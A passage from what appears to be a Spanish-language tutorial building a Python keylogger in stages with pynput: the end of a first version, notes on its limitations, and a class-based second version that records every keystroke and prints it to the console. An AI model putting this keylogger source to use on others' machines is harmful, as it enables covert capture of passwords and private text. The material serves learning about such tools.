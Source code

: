 ```python
        log += special_keys.get(key, f" {str(key)} ")
    print(log)

def report():
    global log
    log = ""
    timer = threading.Timer(5, report)
    timer.start()

keyboard_listener = pynput.keyboard.Listener(on_press=pressed_key)
with keyboard_listener:
    report()
    keyboard_listener.join()
```

### Aporta

- Captura teclas y las imprime en consola.
    
- Reinicia el buffer cada 5s.
    

### Limitaciones

- Uso de variables globales.
    
- No guarda logs en ningún sitio.
    
- Sin mecanismo de salida ordenada.
    

---

## 2) Versión 2 — Refactorización en clase + `main.py`

**Archivo:** `keylogger_v2.py`

```python
#!/usr/bin/env python3
import pynput.keyboard
import threading

class Keylogger:
    def __init__(self):
        self.log = ""

    def pressed_key(self, key):
        try:
            self.log += str(key.char)
        except AttributeError:
            special_keys = {key.space: " ", key.backspace: " Backspace ", key.enter: " Enter ", key.shift: " Shift ", key.ctrl: " Ctrl ", key.alt: " Alt "}
            self.log += special_keys.get(key, f" {str(key)} ")
        print(self.log)

    def report(self):
        self.log = ""
        timer = threading.Timer(5, self.report)
        timer.start()

    def start(self):
        keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
        with keyboard_listener:
            self.report()
            keyboard_listener.join()
```
